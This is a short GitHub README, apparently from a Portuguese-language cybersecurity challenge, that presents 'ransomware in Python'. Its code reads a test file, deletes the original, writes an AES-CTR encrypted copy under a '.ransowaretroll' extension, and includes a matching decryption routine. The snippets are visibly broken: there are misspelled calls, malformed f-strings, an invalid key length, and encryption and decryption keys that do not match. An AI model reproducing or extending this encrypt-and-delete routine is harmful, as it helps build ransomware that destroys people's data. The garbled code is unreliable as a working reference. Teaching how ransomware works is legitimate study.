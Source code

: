 # cibersecurity-desafio-ransomware
Criando um Ransoware em Python

#Criptografar 

import os 
import pyaes

file_name = 'teste.txt'
file = open(file_name,'rb')
file_data = file_read()
file.close()

os.remove(file_name)

key = b"testeransowares"
aes = pyaes.AESModeOfOperationCTR(key)

crypto_data = aes.encrypt(file_data)

new_file = file_name + '.ransowaretroll'
new_file = opern(f'{new_file','wb'}
new_file.write(crypto_data)
new_file.close()


#Descriptografar
import os 
import pyaes 

file_name  = 'teste.txt.ransowaretroll'
file = open(file_name,'rb')
file_data = file.read()
file.close()

key =b'testeransoware'
aes= pyaes.AESModeOfOperationCTR(key)
decrypt)data = aes.decrypt(file_data)

os.remove(file_name)

new_file = 'teste.txt'
new_file = open(f '{new_file','wb'}
new_file.write(decrypt_data)
new_file.close()
